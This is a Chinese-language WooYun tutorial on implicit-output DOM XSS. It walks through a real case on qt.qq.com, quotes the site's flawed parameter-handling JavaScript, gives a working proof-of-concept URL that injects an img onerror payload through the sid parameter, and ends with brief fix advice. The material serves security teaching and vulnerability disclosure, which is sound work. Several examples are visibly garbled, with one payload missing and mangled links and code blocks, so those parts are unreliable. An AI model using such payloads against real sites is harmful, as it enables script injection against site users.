









# 9\. Dom Xss 入门 [隐式输出]

> 来源：[9\. Dom Xss 入门 [隐式输出]](http://www.wooyun.org/bugs/wooyun-2010-016150)

## 简要描述

上一篇开始说 DomXss 了，我们说的是显式输出的情况，即我们可以在右键查看源代码的时候，看到我们所输出的内容。而有一些时候， 输出操作我们是看不见的。它们通常发生在 javascript 代码中。譬如：`var x=location.href;` 这句 Javascript 实际上进行了一个隐 藏的输出操作，即将 `location.href` 的内容输出到了 x 变量中。一起来看看相关的例子吧～

## 详细说明

前注： 1-4 是普通原理，没看明白的话，可以从 5 开始，结合实际例子看。

1\. 本来是有另外一个例子的，不过不知道是腾讯已经给修复了，还是之前测试的时候人品好，偶尔碰上了，总之现在用不上了。

2\. 这样一来，我们就只好用一个稍微复杂一点点的例子了。

3\. 在说实际例子前，我们来说一个前端开发人员非常习惯使用的一段代码。下面大致写下伪代码。

```
function getParam(参数名){
    //获取地址栏参数,通常是 a=1&b=2&c=3;
    var x=location.search;//或者是 location.hash
    //此时 x="?a=1&b=2&c=3";
    //根据[参数名]取出参数名对应的值
    //例如 参数名=a， 则 y=1
    //例如 参数名=b, 则 y=2
    //至于这里怎么实现这个功能，可以用循环，可以用 indexOf，可以用正则 var y= 参数名对应的参数值;
    //返回 y return y;
} 
```

它的作用呢？就是从地址栏的参数里取出内容。譬如： `http://www.some.com/2.html?name=shouzi&age=20`

我们在 2.html，要显示 name 对应的值。对应的代码则非常可能下面这样写：

```
<div id="nick">加载中...</div>
<script>
var a=getParam("name"); //获取地址栏里的 name 参数，即 shouzi document.getElementById("nick").innerHTML=a;
</script> 
```

4\. 上面是普通开发人员为了实现功能而写的代码，如果没有安全考虑，就会存在问题。 如果上面的地址变为了：

```
http://www.some.com/2.html?name=&age=20 
```

那么变量 a 将会等于

```
 document.getElementById("nick").innerHTML=a; 
```

即变成了

```
document.getElementById("nick").innerHTML=""; 
```

这样就变成了 教程 8 中的情景，从而触发 XSS。

5\. 接着我们看一个实际的例子。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa 
```

和原来的不同，我们在源代码里搜索不到东西的哦～



那可能这里有人会有一个疑问了。那我们怎么知道有没有漏洞呢？ 别担心，方法是有的。

这里以 chrome 为例，按 F12，打开调试工具，见下图



和查看源代码没有什么不同，只是这次是在调试工具里看而已。

6\. 通过上面的方式，确定【可能】有漏洞之后。我们可以有 2 个方式来进行下一步。

6.1 直接根据调试工具里看到的 HTML 代码情况，来构造利用代码。 优点：省时间，缺点：如果对方有一定过滤，就很难构造

6.2 定位到与这个缺陷参数 sid 相关的 JS 代码，再来构造利用代码。优点：能利用一些复杂的情况， 缺点：耗时间。

7\. 对于新手来说，先看 6.1 的情况。看到步骤 5 里面的那个图。我们可以构造以下代码。

```
<object width="100%" height="100%" id="f" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=8,0,0,0">
<param name="movie" value="aaaaaa"></object>
...其它的省略了...
</object> 
```

对应的图片解析：



进而“试探性”的测试一下利用代码，因为我们不知道对方会不会过滤掉 “双引号”，“括号”之类的，只能试试了。。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaa](http://qt.qq.com/video/play_video.htm?sid=aaaaaa)a"></object>标签里不使用双引号。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaa](http://qt.qq.com/video/play_video.htm?sid=aaaaaa)a"></object> 
```

这次 OK 啦。



可以看到，这种方式，写利用代码很快。

8\. 再来看看 6.2 的方法。既然我们知道了，sid 这个参数会被使用。 那么我们的目标是，javascript 的代码里哪里使用了 sid 这个 参数呢？

9\. 我们首先，F12 打开调试工具，点【Resources】，再点 Frames, 然后 Ctrl+ F 搜索 "sid" 或者 'sid'



我们运气很好，一下就定位到了一个 sid。

10\. 可以看到是 `getUrlPara("sid")`，从单词，我们不难猜出，getUrlPara 就是前面我们提到的 “获取地址栏参数“的函数。 为了进一步确定，我们可以很方便的在 console 里查看 getUrlParam 函数是啥样的。



可以看到，实际上 getUrlParam 是对`<`, `>` 做了过滤， 但是由于 chrome 浏览器自身的 XSS 防御机制，导致 `location.href` 获取的 `location.href` 是已经经过编码的。从而导致未过滤。 如下图：



11\. 按道理，location.href 里的`<`, `>` ,`"` 已经变成了 `%3c`, `%3e`,`%22` 已经被过滤了，不会有 XSS 了，为什么还可以呢？我们进一步往后看。



看来，关键就是这里，这里有一步 decodeURIComponent 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`

供参考的完整的缺陷代码。

```
var sid=getUrlPara("sid");
if(!sid || sid==""){
    document.getElementById("dv_video").innerHTML='<div class="errmsg" style="margin-top:-10px;">抱歉，视频不存在！</div>';
}else{
    var flash_ver=GetSwfVer();
    if(flash_ver == -1){
        document.getElementById("dv_video").innerHTML='<div class="errmsg" style="margin-top:-30px;">抱歉，您还没有安装 flash 插件<br/>请<a target="_blank" href="http://www.macromedia.com/go/getflashplayer">下载</a>10.0 以上的 flash 播放器<br/>安装 flash 后，请<a href="javascript:location.reload();">点此刷新</a></div>';
    }else if(flash_ver.split('.')[0]<10){
        document.getElementById("dv_video").innerHTML='<div class="errmsg" style="margin-top:-30px;">抱歉，您的 flash 版本过低<br/>请<a target="_blank" href="http://www.macromedia.com/go/getflashplayer">下载</a>10.0 以上的 flash 播放器<br/>安装 flash 后，请<a href="javascript:location.reload();">点此刷新</a></div>';
    }else{
        sid=decodeURIComponent(sid).trim().replace(/([\'\"])/g,'\\\\$1');
        if(!is_valid_sid(sid)){
            document.getElementById("dv_video").innerHTML='<div class="errmsg" style="margin-top:-10px;">无法打开视频文件，视频地址不合法！</div>';
        }else{
            insertFlash("dv_video","f",sid,"100%","100%");
        }
    }
} 
```

12\. 接着，会调用 `insertFlash("dv_video","f",sid,"100%","100%");` insertFlash 里，也并没有对 sid 进行任何过滤。

```
function insertFlash(elm, eleid, url, w, h) {
    if (!document.getElementById(elm)) return;
    var str = '';
    str += '<object width="' + w + '" height="' + h + '" id="' + eleid + '" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=8,0,0,0">';
    str += '<param name="movie" value="' + url + '" />';
    str += '<param name="allowScriptAccess" value="never" />';
    str += '<param name="allowFullscreen" value="true" />';
    str += '<param name="wmode" value="transparent" />';
    str += '<param name="quality" value="autohigh" />';
    str += '<embed width="' + w + '" height="' + h + '" name="' + eleid + '" src="' + url + '" quality="autohigh" swLiveConnect="always" wmode="transparent" allowScriptAccess="never" allowFullscreen="true" type="application/x-shockwave-flash" pluginspage="http://www.macromedia.com/go/getflashplayer"></embed>';
    str += '</object>';
    document.getElementById(elm).innerHTML = str
} 
```

图片解析：



```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E 
```

非常值得说明的是：

如果采用 6.1 的方法，我们得到的利用代码是

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object> 
```

!! 这个代码在 IE 下，是没法 XSS 的。

而通过 6.2 的方法，去分析 JS 代码，我们则可以构造出通用的 XSS 代码。

```
http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E 
```

这也反应了 6.1 和 6.2 方法各自的优缺点。

## 修复方案

1\. 修复过滤上的逻辑问题。

2\. 注意不同浏览器中，`location.href` 的不同点。